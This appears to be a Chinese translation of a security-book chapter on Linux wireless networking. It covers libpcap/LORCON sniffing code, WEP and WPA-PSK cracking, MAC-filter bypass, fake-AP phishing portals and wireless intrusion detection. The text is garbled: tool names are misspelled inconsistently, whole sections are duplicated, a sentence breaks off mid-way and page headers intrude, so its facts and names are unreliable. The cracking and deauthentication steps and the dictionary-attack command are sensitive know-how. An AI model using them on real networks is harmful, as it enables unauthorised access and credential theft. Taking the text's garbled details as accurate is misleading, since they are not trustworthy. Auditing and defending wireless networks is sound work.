在开发无线工具时，最需要熟悉的代码库之一是 `Libpcap` 库。它最初开发于劳伦斯·伯克利实验室，目前由维护 `Tcpdump`（命令行数据包捕获工具 `http://tcpdump.org`）的同一组人员维护。在嗅探工具中使用 `Libpcap` 库使得从程序员的角度来看，它是许多编码的必需品，使其在编写工具时成为一种不可或缺的东西。

```c
#include <pcap.h>
pcap_handle = pcap_open_live(interface,65536,1,1000000,errbuf);
// 当发生错误时
if (pcap_handle == NULL)
{
    fprintf(stderr,"Error in pcap_open_live: %s\n", errbuf);
    cleanup_failure(); // exits
}
```

这段代码显示了 `Probemapper` 工具打开了一个 pcap 接口，该接口后续将用于从该无线接口获取数据包。后续代码使用通过 `pcap_open_live` 创建的句柄和 `pcap_next` 函数调用来提取无线接口接收的数据。随后的三行会在未接收到任何内容时检查并报告错误。

```c
pcap = pcap_next(pcap_handle, &hdr);
if (pcap == NULL)
{
    fprintf(stderr,"No packets: %s\n", errbuf);
    cleanup_failure(); // exits
}
```

在嗅探无线接口时需要理解的下一个重点是，无线接口必须设置为监控模式（monitor mode），RFMON 才能嗅探无线流量，无论是数据帧、管理帧还是控制帧。通过无线驱动程序收集的每个无线帧前面都有一个特殊的头部，报告无线网卡（WNIC）接收帧时点的信号电平、噪声水平、频率和速率信息。不同的无线驱动/固件组合会附加不同的头部，在某些情况下，还取决于这些驱动程序/固件的设置。识别所附加的头部类型非常重要，因为嗅探器的代码必须能够识别被捕获数据包的结构以及如何相应地对其进行处理。

通常会附加三种类型的头部：Radiotap 头部、WLAN-ng PRISM 头部和 PRISM AVS 头部。为了区分附加在每个无线数据包上的头部，你可以使用 `pcap_datalink` 函数调用，其总结如下所示：

```c
#define DLT_PRISM_HEADER 119
#define DLT_IEEE802_11_RADIO_AVS 163
#define DLT_IEEE802_11_RADIO 127
// 识别 PRISM Header
if (pcap_datalink(pcap_handle) == DLT_PRISM_HEADER)
{
    ..process PRISM header code here
}
// 识别 AVS Header
if (pcap_datalink(pcap_handle) == DLT_IEEE802_11_RADIO_AVS)
{
    ..process AVS header here
}
// 识别 Radio Tag Header
if (pcap_datalink(pcap_handle) == DLT_IEEE802_11_RADIO)
{
    ..process Radio Tag here
}
```

由于头部结构定义不同，处理这些头部的代码也必须不同。编写无线应用时，这三个头部的数据结构定义如下：

#### PRISM Header

```c
struct wlan_ng_prism2_header {
    uint32_t msgcode            __attribute__ ((packed));
    uint32_t msglen             __attribute__ ((packed));
    uint8_t  dev_name[WLAN_DEV_NAME_MAX]  __attribute__ ((packed));
    uint32_t hoststime          __attribute__ ((packed));
    uint32_t mactime            __attribute__ ((packed));
    uint32_t channel            __attribute__ ((packed));
    uint32_t rssi               __attribute__ ((packed));
    uint32_t sq                 __attribute__ ((packed));
    uint32_t signal             __attribute__ ((packed));
    uint32_t noise              __attribute__ ((packed));
    uint32_t rate               __attribute__ ((packed));
    uint32_t flags              __attribute__ ((packed));
    uint32_t frameno             __attribute__ ((packed));
};
```

#### AVS Header

```c
struct avs_80211_header {
    uint32_t version;
    uint32_t length;
    uint64_t mactime;
    uint64_t hoststime;
    uint32_t phytype;
    uint32_t channel;
    uint32_t datarate;
    uint32_t antenna;
    uint32_t priority;
    uint32_t ssi_type;
    int32_t ssi_signal;
    int32_t ssi_noise;
    uint32_t preamble;
    uint32_t encoding;
};
```

#### RadioTap Header

```c
struct ieee80211_radiotap_header {
    u8 version;
    u8 pad;
    u16_t len;
    u32_t present;
    uint64_t ts;
    uint16_t channel;
    uint16_t fhss;
    u8 rate;
    int8_t dbm_signal;
    int8_t dbm_noise;
    u8 db_noise;
    uint16_t quality;
    uint16_t tx_attenuation;
    uint16_t db_tx_attenuation;
};
```

Radiotap 头部的结构与其他两个头部的不同在于，它是一个带有 `present` 字段的变长头部。该字段通过其位图指示哪些字段存在，哪些不存在。在获取头部后，嗅探器代码将根据其结构处理无线帧的剩余部分。在下面的代码中，获取头部头部后接收到的帧被强制转换为管理头部：


```c
#define T_MGMT 0x0
#define ST_AUTH 0xB
#define FC_TYPE(fc) ((fc) & 0x3)
#define FC_SUBTYPE(fc) ((fc) & 0xF)

struct mgmt_header_t {
    u_int16_t fc;
    u_int16_t duration;
    u8_t da[6];
    u8_t sa[6];
    u8_t bssid[6];
    u_int16_t seq_ctrl;
};
// 从数据包中获取管理头部
mgmt_header = (struct mgmt_header_t *) packet;
if ( FC_TYPE(mgmt_header->fc) == T_MGMT ) {
    // 处理管理无线帧的代码
}
if ( FC_SUBTYPE(mgmt_header->fc) == ST_AUTH ) {
    // 处理身份请求帧的代码
}
```

LORCON 是 Loss of Radio Connectivity（无线连接丢失）的缩写。它是由 Joshua Wright 和 Dragron 编写的一组库。这些库使得程序员编写数据包注入工具的工作变得简单得多；它们消除了处理多个无线芯片组以及为应用程序中支持的每一个 WNIC 编写代码的复杂性，因为每个 WNIC 的代码编写和功能都不同。

可以从 `http://802.11ninja.net/LORCON-current.tgz` 下载 LORCON。安装 LORCON 后，如果你想编写使用 LORCON 库的应用程序，需要额外的库标志 `-lorcon` 进行编译。

LORCON 暴露了一系列函数调用，任何将 LORCON 库编译到代码中的应用程序都可以这些调用。通过使用 LORCON 库，应用程序开发者不需要编写特定驱动程序的代码来处理不同驱动/芯片组注入数据包时的差异。这里展示的代码结构/格式说明了该库的能力，从展示如何建立接口到如何传输无线帧：

```c
#include <tx80211.h>
#include <tx80211_packet.h>
/* 初始化接口 */
if (tx80211_init(&in_tx, iface, drivertype) < 0)
{
    // 处理错误
}
/* 设置监控模式 */
if (tx80211_setmode(&in_tx, IW_MODE_MONITOR) < 0)
{
    // 处理错误
}
/* 切换到指定通道 */
if (tx80211_setchannel(&in_tx, channel) < 0)
{
    // 处理错误
}
/* 打开接口以获取套接字 */
if (tx80211_open(&in_tx) < 0)
{
    // 处理错误
}
/* 发送数据包 */
if (tx80211_txpacket(&in_tx, &in_packet) < 0)
{
    // 处理错误
}
```

本书包含了 Probemacker，这是一个基于 GPL 的无线客户端检测和无线配置识别程序，它使用了 LORCON 库。Probemacker 也可以从 `http://securitystarts.org/page-downloads.htm` 获取（该地还提供了适用于 Probemacker 的 LORCON 库副本）。

## 防御审计/攻击平台的组装

结论：从技术角度来看，你无法阻止人们组装审计或攻击目的工具包，就像你无法阻止生产烟草一样。防止诸如无线嗅探器工具的创建、审计平台的组装以及代码编写是不可能的。要阻止组装攻击平台的手，你必须在现场阻止

# 第 8 章：无线网络

是指执行构建工具物理动作、在键盘上打字或其从事任何组装活动的人员。

监管者防止工具开发、编译和组装的最显而易见的方法是针对生产或编译平台的法律。然而，即使实施了此类法律，也无法在实践中阻止某人生产或编译这些平台。执法完全是另一回事，特别是涉及到跨境案件时。

在本书编写时的大多数司法管辖区内，创建、编译或组装平台本身并不违法（如果它被裁定为违法的话！尽管像德国等国家正试图立法将其定为非法。真正重要的是所创建的平台或工具包的目的。

以我们的例子来说，任何人都可以使用餐叉来吃饭，也可以用来戳人的眼睛。这是否意味着我们必须禁止或取缔餐叉呢？将审计/黑客平台或工具编译可能被用于潜在的恶性目的作为剥夺或拒绝分发此类平台或工具的理由是荒谬的，因为这惩罚了使用这些工具和平台对组织网络和服务器进行合规安全审计的安全专业人员，使他们能够在攻击者之前发现漏洞。攻击者不受法律约束，无论通过了什么法律，他们都会继续其活动。禁止开发和使用审计/黑客平台及工具包的立法会让那些合法使用相同工具的“好人”手里只有刀，面对的是枪战。

# 无线基础设施审计

| 流行度 | 8 |
|---|---|
| 简易程度 | 6 |
| 影响力 | 9 |
| 风险等级 | 8 |

无线审计员在对无线网络进行技术审计时，会执行各种技术活动。在审计无线网络时，需要执行这些活动以确定网络的脆弱性。这些活动分类如下：

- RF 频谱分析
- 无线基础设施设备识别
- 破解加密
- 三层连通性测试
- RF 传播边界
- DoS/劫持

## RF 频谱分析

我们在本章较早部分讨论了 RF 频谱分析的重要性和原理。从审计员/黑客的角度来看，理解 RF 模式和图表将帮助你识别是否有任何设备在正常范围外秘密运行。例如，一家位于美国的的组织在信道 1、6 和 11 上运行三个 AP，然后突然，你看到信道 13 或 14 上出现了一些 RF 能量。如果该活动来自该组织的 AP，由于这违反了 FCC 规则，它也可能代表一个知情的人在仅支持信道 1–11 的 WNIC 无法访问或识别的信道上运行非法 AP。

如果检测到特定 RF 频率活动，审计员在进入下一阶段之前，需要确保用于审计目的无线网络设备能够在该频率上接收和传输。

## 无线基础设施设备识别

在此阶段，审计员将通过使用各种工具查看二层信息，开始进行设备和协议分析。

Kismet 常用于执行设备识别。正如本章之前提到的，Kismet 是一个 802.11 二层无线网络检测器和嗅探器，具有入侵检测能力。它可以与任何支持 RF 监控（RFMON）模式的 WNIC 配合工作。当 WNIC 启动时，Kismet——它可以根据 WNIC 的无线电能力嗅探部署在该网上的 802.11b、802.11a 和 802.11g 流量。图 8-21 显示了 Kismet 的运行情况。

Kismet 的运行主要通过其配置文件 `Kismet.conf` 进行控制。文件中最重要的配置设置是指定给 Kismet 的采集源。Kismet 中的采集源是一个向 Kismet 嗅探引擎提供无线帧的网络接口。它告诉 Kismet 使用什么类型的 WNIC，因为不同的驱动程序使用不同的方法报告信息并进入监控模式。支持的 WNIC/驱动组合及其关联条目可以在 Kismet 的 README 文件“Capture Sources”部分找到。

Kismet 让审计员不仅能够识别到 AP 的 SSID（Kismet 文档和 GUI 中提到的），还能获取有关每个 AP 的完整信息列表，例如 BSSID、AP 传输信道、信号强度、加密方案、IP 范围、支持的速率以及连接的无线客户端。通过这些信息，审计员现在可以通过 SSID、BSSID、加密方案以及有时的信号信息识别属于组织的 AP 列表。然而，审计员不应纯依赖 Kismet 界面提供的信息，他们应该学习读取 Kismet 创建的数据包储，并通过交叉检查 Kismet 显示的信息与实际采集并写入文件的帧来确定 Kismet 输出的准确性。

除了 Kismet 之外，Airodump-ng（Aircrack-ng 套件的一部分，位于 `http://aircrack-ng.org/`）也可以用于交叉验证密钥信息，如下：

| 网络列表 (SSID) | 信道 | 标志 | IP 范围 | 大小 | 信息 |
|---|---|---|---|---|---|
| <ssid> | 001 | 107 | 0.0.0.0 | 08 | 数据包 |
| <ssid> | 001 | 15 | 0.0.0.0 | 08 | 空隙 |
| <ssid> | 011 | 77 | 0.0.0.0 | 08 | 加密 |
| <ssid> | 001 | 0 | 0.0.0.0 | 08 | Web |
| linksys_SES_45843 | 006 | 2 | 0.0.0.0 | 08 | 响应 |
| linksys | 001 | 3 | 0.0.0.0 | 08 | 噪声 |
| vishal-home | 008 | 1 | 0.0.0.0 | 08 | 丢弃 |

图 8-21 Kismet 识别的 GUI 确实准确且可靠的。这是使用一个工具来验证另一个工具观察的示例。

## 破解加密

在审计的这一阶段，有了 AP 列表及其相应的加密方案，审计员尝试以每个 AP 为基础破解目标使用的加密方案。

等效隐私（WEP）是在 802.11b 无线标准首次引入时实现的加密标准。直到最近，许多 AP 只支持 WEP 用于链路加密。即使对于那些支持改进帧加密的设备，WEP 仍然被广泛使用。WEP 实现中的缺陷已详尽记录，权威的解释来自 Fluhrer、Mantin 和 Shamir 在 2001 年发表的名为《RC4 密钥调度算法缺陷》的论文。

第一代 WEP 破解工具（如 Airsnort 或 Dewcrack）完全依赖于采集的包含初始化向量（IVs）加密数据的帧的数量。因此，审计员通常需要花费大量时间收集数据包（大约 1000 万个加密数据包），这些第一代破解工具才能发现正在使用的 WEP 密钥。

2004 年有时，引入了 WEP 统计密码分析方法，大大减少了破解 WEP 密钥所需的帧数。Aircrack-ng 是这种第二代工具的示例，它将新技术与改进的 Fluhrer-Mantin-Shamir 技术相结合以加快破解。使用 Aircrack-ng，你不再需要采集数百万帧，只需要几十万具有唯一 IV 的帧。

Airodump-ng 包含在 Aircrack-ng 套件中，是一种旨在与 Aircrack-ng 协同工作的嗅探工具。Airodump-ng 的输出可以馈给 Aircrack-ng，在 Airodump-ng 继续采集帧的同时执行破解攻击。以下输出显示了一个运行中的 Airodump-ng 实例：

```
usage: airodump-ng <interface> <output prefix> [channel] [IVs flag]
```

指定 0 为信道以便 2.4 GHz 信道之间跳转。将可选的 IVs 标志设置为 1 以仅保存采集的 IV —— 生成的文件仅对 WEP 破解有用。

如果 gpsd 守护进程正在运行，airodump-ng 将以文本格式检索当前的 GPS 坐标。

| BSSID | 功率 | Beacons | # Data | CH | MB | ENC | ESSID |
|---|---|---|---|---|---|---|---|
| 00:14:21:44:31:9C | 46 | 15 | 13416 | 6 | 54 | WEP | the ssid |
| 00:09:5B:1E:4E:1A | 36 | 54 | 0 | 11 | OPN | NETGEAR |

Airplay-ng（Aircrack 套件中的另一个工具）主要是一个包注入工具。其主要目的是向网络注入流量，以便 Aircrack-ng 进行破解。该工具可以在不同的模式下执行。这种特定模式会导致连接的客户端取消身份，以便客户端重新关联，从而生成攻击者可用于 ARP 响应攻击的帧。Aircrack-ng 套件中的其他工具包括 Aircap-ng（解密 WEP/WPA 捕获文件）以及 Packetforgeng（伪造帧）。

无线保护访问（WPA）是一种为了响应 WEP 加密方案中发现严重漏洞而创建的标准。它通过围绕临时密钥性协议（TKIP）、802.1x 访问控制机制和可扩展身份验证（EAP）动态创建临时加密密钥来改进 WEP，以保护网络访问。它旨在作为在 802.11i 规范最终之前替代 WEP 的中间措施。无线保护 2（WPA2，也称为 RSN 或强安全网络）随后发布，它实施了 802.11i 的强制性元素。

## 第 8 章：无线网络

具体而言，它引入了一种新的基于 AES 的算法——计数器模式 CBC-MAC 协议（CCMP），该算法被认为是完全安全的。截至编写之日，尚未存在针对 WPA 或 WPA2 的公开漏洞利用。

尽管 WPA 设计用于配合在企业环境中运行的 IEEE 802.1x 身份验证服务器（因此被称为 WPA-企业版），但一种 WPA 变体使用口令作为种子值来生成用于加密无线网络数据负载的临时加密密钥，这种变体被称为预共享密钥（PSK）模式。WPA-PSK 是为那些没有资源建立和维护身份验证服务器的家庭用户设计的。唯一的是 AP 和每个用户都获得相同的密码，以便客户端上称为 WPA supplic者（Supplicant）的软件连接到 AP。

与 WPA 不同，WPA-PSK 模式可以通过离线字典攻击进行破解。在 WPA-PSK 实现中，PSK 是创建成端密钥（PMK）的种子值，PMK 又驱动了整个四次握手和整个成端临时密钥（PTK）密钥层次结构。将密码转换为 PMK 所需的256位值的基于密码的派生函数 v2.0（PBKDF2）数学公式已广为人知。因此，找到生成 256 位 PMK 的正确 PSK 所需的所有信息都可以在 WPA-PSK 四次握手中找到。因如此，在某些情况下，破解受 WPA-PSK 保护的网络实际上比受 WEP 保护的网络更快。

在进行 WPA-PSK 破解之前，需要捕获有效客户端的四次握手。Airdump-ng 配合 Airplay-ng 可以先验证有效客户端，然后在客户端尝试重新关联 AP 时捕获四次握手。

捕获四次握手后，下一步将其传递给像 CopWatty（`http://sourceforge.net/projects/copwatty`）这样的工具，该工具用于审计 WPA-PSK 网络预共享密钥（PSK）选择的强度。此代码演示了用法：

```
./copwatty r test.cap -f dict -s myssid
```

CopWatty 2.0 - WPA-字典攻击. jwright@hasborg.com

已收集所有用于破解口令所需的数据。

正在将单词加载到内存，请稍候 ... 完成（70000 个单词）。

正在启动字典攻击。请稍候。

[1000] [2000] [3000] [4000]

PSK 为 "passphrase"。

除了 CopWatty 之外，也可以使用 Aircrack-ng，因为它具有 WPA-PSK 破解模式。然而，此类工具的问题在于破解密钥是一个非常缓慢的过程。字典中的每个口令都需要使用 SHA-1 进行 4096 次哈希处理，然后将生成的 256 位输出与初始四次握手中生成的哈希进行比较。更复杂的是，密钥哈希可能会根据网络的 SSID 而不同；SSID 和 SSID 长度会被作为种子到口令哈希中（例如，密码 'password' 在 SSID 为 'linksys' 的网络上的哈希将不同在 SSID 为 'default' 的网络上）。

为了提高破解速度，WiFi 教会（`http://www.renderlab.net/projects/WPA-tables/`）的一项最新进展发布了算法以及彩虹表（使用来自 172,000 个单词字典的 1000 个 SSID 的哈希表生成），使得 WPA-PSK 破解快得多。然而，这是一种时间空间权衡，因为彩虹表本质上是预先生成的巨表，包含哈希结果，而不是让破解工具的每个实例在运行时逐行计算。这是一种时间空间权衡，尽管加快了过程，但彩虹表通常会占用大量空间。在某些情况下，数据量可达 40 GB。

## 三层连接测试

在建立起到 AP 的二层连接的任何时刻，都可以使用三层连接（即 IP 所在的网络层）来枚举无线网络。

MAC 过滤是 AP 中非常常见的安全机制。要绕过 MAC 过滤，你必须使用现有的“允许”无线客户端的 MAC 地址。可以使用 Airdump-ng 和 Proemapper 工具来识别当前关联到 AP 并被“允许”进入网络的无线客户端，从而轻松识别出可使用的有效“允许”MAC 地址。

通常，当终端用户连接时，他或她会自动从网络上的 DHCP 服务器获取 IP 地址，或使用静态分配的 IP 地址。通过嗅探无线网络并使用 Wireshark 或 Tcpdump 等工具分析来自无线网络的数据帧，你可以轻松确定网络使用的 IP 范围（假设流量是未加密或已破解的）。一旦设置了 IP 地址，就会使用 Nmap 等工具对审计员当前连接的无线网络 IP 范围进行端口扫描以寻找主机。

对 AP 进行端口扫描通常会显示 Web 管理端口、SNMP 端口以及 AP 上可能开启的其他端口。这些信息将允许审计员进一步确认 AP 的品牌和型号。

# 268 破解 Linux：Linux 安全秘密与解决方案

来自用户。虽然你可以使用如 Airsnarf 等工具来实现此，但也可以通过手动将无线网卡（WNIC）设置为主设备模式、配置 HTTP 服务器以提供与伪造服务的强制性门户匹配的页面，并建立一个 DHCP DNS 服务器，让受害者接收你为他或她选择的 IP 地址，并将所有 DNS 请求解析回攻击者的钓鱼箱。这种攻击的另一种变体形式是 AP 充当合法 AP 的无线分发系统（WDS）；它将自己广播为合法 AP，并通过 WDS 方法将客户端的所有数据传递给真实的 AP，但在转发这些数据之前，它会先对接收和发送的数据进行复制。

# 实用无线部署方法论 (PWDM)

你可以在网上找到类似于“关于无线网络的 7 事项”或“构建安全 WiFi 网络的 8 个步骤”之类的文档。然而，这些指南大部分都只考虑了无线局域网（WLAN）部署周围的技术细节（这些是最容易解决的）。它们还没有考虑实施阶段之后的运营阶段，而大多数经验丰富的人都会认同后者是比前者更具挑战性的。

因此，你需要的是一种方法论，可以帮助指导无线网络从设计阶段到实施阶段的部署，并在两个阶段都纳入运营考量。PWDM 就是实现这一目标的方法论之一。


实用无线部署方法论（简称 `PWDM`）可以从 `http://pwdm.net` 下载，它旨在遵循一系列步骤，涵盖组织在推出 `WLAN` 部署过程中通常会遇到的所有领域。无论组织大小如何，无论 `WLAN` 是私用的还是公用的，这都不重要。

`PWDM` 并没有深入探讨技术细节，例如如何通过启用 `VPN` 来部署 `WLAN`。它提供的是一个框架，让人们考虑他们已经在许多领域中尽了尽职调查，它的作用作为一个高层级的通用指南，涵盖了 `WLAN` 部署的各个阶段，以及应该采取哪些任务来解决你在此类部署中通常会遇到的问题。由于 `PWDM` 是一个人们可以用来指导其无线部署和/或升级的高级框架或骨架，它并不旨在提供如何完成方法论中每一步的具体技术指示，因为人们在实施层面可能会有自己的处理方法。此外，对于特定组织不适用的领域也不需要遵循。然而，必须遵循 `PWDM` 的顺序，以确保部署的一致性和有方法性。这里的关键在于意识到，尽管某些步骤对于不同类型的 `WLAN` 的重要程度各异，但执行 `PWDM` 方法论步骤的过程在不同类型的 `WLAN` 部署中很少改变。

# 第 8 章：无线网络

`PWDM` 包含以下步骤：
- 1. 部署分析
- 2. 合同谈判
- 3. 部署战术规划
- 4. 部署程序化推出
- 5. 支持性基础设施推出
- 6. `AP` 安全问题
- 7. 三层缓解策略
- 8. 网关管理
- 9. 管理覆盖层问题
- 10. 用户验收测试（`UAT`）和调试

如你所见，`WLAN` 的部署过程发生在设备实际生产或指定供应商交付解决方案很久以前。指定一个供应商并不能免除 `WLAN` 所有者了解其基础设施细节的责任。如果以后出现任何安全问题，所有者将承担未进行尽职调查的责任。每个阶段都带有对要解决的问题的理解，并有助于将注意力集中在非技术和技术问题上，这些问题将影响部署，而且更重要的是影响 `WLAN` 的运行和维护。

`PWDM` 包含了所有所需的细节并且可以免费下载，我们不需要对其进行长篇大论。只需要说，任何参与设计、实施或维护 `WLAN` 的人员至少应该看一眼 `PWDM`，看看它如何帮助理顺部署过程。

## 使用 Linux 交付安全的无线基础设施设备

得益于开源社区对硬件和软件的持续黑客，你可以使用 `Linux` 作为一个平台，在安全的无线基础设施中部署各种组件。这属于 `PWDM` 中的 `AP` 安全问题、三层缓解策略和管理覆盖层问题步骤。

## 无线接入点 `AP`

有些人可能会问，为什么在市售 `AP` 通常能满足 `WLAN` 要求且价格合理的情况下，你还想要构建一个自制（`DIY`）`AP`？答案是灵活性和可定制性。使用现成的商业盒子，你受限于 `AP` 供应商提供的功能集。因此，你必须等待他们提供固件升级以使用任何新功能。在 `DIY` 解决方案中，你可以自己自定义功能集。

## 破解 Linux：Linux 秘密与解决方案

你至少有三种方法可以构建自己的基于 `Linux` 的 `AP`。对于不那么冒险的人，可以在原生 `Linux` 盒子上使用纯软件解决方案（例如 `Hostapd`）。对于稍微有点冒险的人，可以在带有支持的无线芯片组的现有硬件平台上使用自定义的固件实现（例如 `OpenWRT` 和 `DD-WRT`）。而对于硬核极客，自定义的硬件软件解决方案（制作带有 `Pyramid Linux` 的 `Soriks` 或 `PC Engines WRAP` 板）会让你的灵感喷涌。

`Hostapd` 这一节介绍了你如何使用基于软件的项目（如 `Hostapd`，`http://hostapd.epitet.fi/hostapd`）将 `Linux` 盒子转换为 `AP`。`Hostapd` 项目的作者和维护者是 `Jouni Malini`。

`Hostapd` 有一个令人印象深刻的功能列表，可以列出一很多。它不仅支持 `EAP/802.1X`，还支持 `RADIUS`。目前的稳定版本是 `0.9`。在完成并安装 `Hostapd` 后，可以通过以下方式控制配置：

```
ssid=YourNetwork
hw_mode=g
wpa=2
wpa_key_mgmt=PSK
wpa_pairwise=TKIP CCMP
passphrase=YourPassword
```

在编辑 `hostapd` 后，我们还需要创建接受和拒绝文件。配置示例所示：

```
accept
- mac=CC:CC:CC:CC:CC:CC
- mac=CC:CC:CC:CC:CC:CC
deny
- mac=CC:CC:CC:CC:CC:CC
- mac=CC:CC:CC:CC:CC:CC
```

## 认证服务器

假设你已经设置了无线网络并想迁移到完全认证，你可以使用开源包（如 `FreeRADIUS`）配置 `Linux`。`FreeRADIUS` 可从 `http://www.freadius.org` 获取，也存在于许多 `Linux` 发行版的可选包中。一旦安装，服务器配置通常（并非总是）位于 `/etc/radius/`。

## 强制性门户 `Captive Portal`

组织中拥有无线网络的人可能还想要实现强制性门户。强制性门户也被称为网关，是一种软件或硬件设备，通常基于 `Web` 用于管理所有希望使用网络的访问。一个基于软件的强制性门户示例是 `wifiid`。另一个已集成到各种商业产品中并在 `Linux` 上运行的示例是名为 `CatSplash` 的工具。我们将使用 `wifiid` 进行说明。

该应用程序由两个部分组成：客户端（安装在路由器上的守护进程）和认证服务器（安装在位置的 `Web` 应用程序）。通过防火墙，客户端守护进程控制流量。当它检测到新用户尝试访问受保护资源时，路由器上的客户端守护进程会将这些用户透明地重定向到认证服务器，那里他们将被提示登录（对于现有用户）或注册（对于新用户）。客户端每几分钟向服务器更新一次运行时间、负载、每个客户端的流量计数等，以便服务器知道客户端仍在。

通过在 `AP` 和网络资源之间接入运行 `wifiid` 守护进程的 `Linux` 路由器，或直接在 `Linux AP` 上安装 `wifiid`，你可以有效地实施第二层访问控制和认证。

## 无线入侵检测系统 `WIDS`

在本节中，我们将介绍将 `Linux` 盒子转换为无线入侵检测系统（`WIDS`）的各种方法。与有线世界一样，入侵检测是检测和响应网络实时威胁所需的整个防御库的一部分。然而，在无线世界中，这一要求更为关键，因为威胁不仅来自传统的向量（即通过普通有线 `IDS` 检测），还来自无线领域本身。此类威胁的示例：

## Hacking Exposed Linux：Linux 安全秘密与解决方案

使用去认证包进行的 `DoS` 攻击可以将合法用户排除在无线网络之外，以及通过伪造 `AP` 和强制性门户进行凭据窃取。

无线网络的本质——其射电频率传播——要求通过共享介质（即空气）传输。它无法通过物理介质（如电线）或边界（如墙壁）轻松包含或分割，从而在防止坏人进入的同时允许合法用户访问。如今的无线标准在这方面并没有帮助，因为即使对于使用可能的算法加密的网络，管理和控制帧仍然以明文形式可见。

当我们回顾 `IDES`、`Snort` 时，会提到几个名字。在奇异的世界里，`Snort` 是一种非常流行的 `IDS`，被全球许多个人和组织使用和支持。`Snort-Wireless` 是一个试图创建可扩展（且免费的！）基于 `802.11` 的入侵检测系统的项目，它可以轻松地集成到 `IDS` 基础设施中。它与 `Snort 2.0.x` 完全兼容，并添加了几个额外功能。目前，它允许通过新的 `WiFi` 协议进行 `802.11` 特定的检测规则，以及对流氓 `AP`、自建网络和 `Netstumble` 的检测。

要建立 `WIDS`，你需要一台安装了无线网卡的 `Linux` 机器，并将其设置为 `RFMON` 模式。所有无线帧都会被无线网卡嗅获并传递到安装在同一台机器上的 `Snort-Wireless` 引擎。对于任何典型的 `IDS`，预计在设备初始运行期间会产生误报。检测无线攻击还存在额外的困难，因为无线介质由 `14` 个信道池组成（在 `802.11b` 标准），让任何 `IDS` 引擎读取并理解可能跨越各种无线信道的攻击并不是一项易事。

另一个另一个作为简单 `WIDS` 形式部署的流行工具是 `Kismet` 工具 (`http://www.kismetwireless.net`)。虽然该工具主要作为无线嗅探器编写，但它内置了检测以下攻击类型的机能力：
- `NETSTUMBL`：发送多个探测请求的 `Netstumble` 程序
- `DEAUTHFLOOD`：去认证泛洪攻击
- `LUCENTTEST`：正在使用的 `Lucent` 链路测试程序
- `WELLREITER`：一种流行的无线工具
- `CHANCHANGE`：可能指示流氓 `AP` 的通道变化
- `BCASTDIS`：去关联攻击
- `AIRJACKSSID`：`SSID` 为 `air` 的 `AP`（`airjack` 是一种攻击工具）
- `PROBENJOIN`：探测开放网络但从不加入的设备
- `DISASOCOTRAFFIC`：去关联攻击
- `NPROBERESP`：可能的 `DoS` 攻击
- `BSSTIMESTAMP`：可能的伪造 `BSSID`

### 第 8 章：无线网络

从这个列表中，你可以看到 `Kismet` 可以检测针对无线网络使用的许多顶级攻击类别。`Kismet` 也可以作为分布式 `WIDS` 平台。通过设置 `Kismet` 无人机组件并将其指向中央服务器，你可以轻松地建立一个具有多个监控和中央报告能力的单一企业级 `WIDS`。无人机需要的系统资源非常有限，可以安装在刷了 `Linux` 系统的 `Linksys RTW54g` 上。

另一个免费的 `WIDS` 工具是 `WIDZ` (`http://www.loud-fat-bloke.co.uk/tools.html`)。编写时 `WIDZ` 版本为 `1.5`，支持以下功能：
- 流氓 `AP` 检测
- `Airjack` 攻击检测
- 探测请求检测
- 广播 `ESSID`（`"ANY"`）
- `MAC` 块列表中的错误 `MAC` 放置
- `ESSID` 块列表中的错误 `ESSID` 放置
- 关联帧泛洪

`WIDZ` 可以通过将你的合法 `AP` 加入 `widz-ap.config` 来配置以检测非法的 `AP`，同时监控网络中的恶意流量。

### 应急响应工具包

你还可以移动 `Linux` 笔记本电脑作为组织无线应急响应工具包的一部分。虽然 `WIDS` 可以检测攻击并警告管理员正在发生的攻击，但以快速且响应迅速的方式做出反应，以停止并可能捕获参与攻击的罪犯，完全是另一回事。

定位已电流氓 `AP` 的一种方法是使用 `Waveform` 工具 (`http://freshheat.net/projects/wavemon`) 来检查其强度。由于 `AP` 的功率输出不变，你离 `AP` 越近，信号强度就越强。配备 `Wavemon` 的笔记本可以由应急响应人员携带，以通过其信号强度帮助追踪 `AP`。图 `8-22` 显示了 `Wavemon` 工具的显示。

虽然有很多工具可以帮助追踪流氓 `AP`，但帮助检测流氓客户端的工具有限。`Probemapper` 由 `Christopher Low` 编写，并可以在 `http://securitystartshere.org/page-downloads.htm` 下载，它不仅可以帮助追踪无线客户端及其探测请求，还可以通过客户端 `WNIC` 发出的无线信号强度来估计无线客户端的物理距离。图 `8-23` 显示了 `Probemapper` 的显示，带有无线客户端的信号强度指示。

## Hacking Exposed Linux：Linux 安全秘密与解决方案

```
interface
ath0 (IEEE 802.11g), SSID: "   ", nick: n/a nick: n/a n/a
wireless
link quality: 93/94
signal level: -35 dbm (0.32 dBm)
...
```

从这个列表中，你可以看到 `Kismet` 可以检测针对无线网络使用的许多顶级攻击类别。`Kismet` 也可以作为分布式 `WIDS` 平台。通过设置 `Kismet` 无人机组件并将其指向运行 `Kismet` 服务器组件（本身是一个客户端服务器应用程序）的中央服务器，你可以轻松地建立一个具有多个监控和中央报告能力的单一企业级 `WIDS`。无人机需要的系统资源非常有限，可以安装在刷了 `Linux` 系统的 `Linksys RTW54g` 上。另一个免费的 `WIDS` 工具是 `WIDZ` (`http://www.loud-fat-bloke.co.uk/tools.html`)。编写时 `WIDZ` 版本为 `1.5`，支持以下功能：
- 流氓 `AP` 检测
- `Airjack` 攻击检测
- 探测请求检测
- 广播 `ESSID`（`"ANY"`）
- `MAC` 块列表中的错误 `MAC` 放置
- `ESSID` 块列表中的错误 `ESSID` 放置
- 关联帧泛洪

`WIDZ` 可以通过将你的合法 `AP` 加入 `widz-ap.config` 来配置以检测非法的 `AP`，同时监控网络中的恶意流量。

### 应急响应工具包

你还可以移动 `Linux` 笔记本电脑作为组织无线应急响应工具包的一部分。虽然 `WIDS` 可以检测攻击并警告管理员正在发生的攻击，但以快速且响应迅速的方式做出反应，以停止并可能捕获参与攻击的罪犯，完全是另一回事。

定位已电流氓 `AP` 的一种方法是使用 `Waveform` 工具 (`http://freshheat.net/projects/wavemon`) 来检查其强度。由于 `AP` 的功率输出不变，你离 `AP` 越近，信号强度就越强。配备 `Wavemon` 的笔记本可以由应急响应人员携带，以通过其信号强度帮助追踪 `AP`。图 `8-22` 显示了 `Wavemon` 工具的显示。

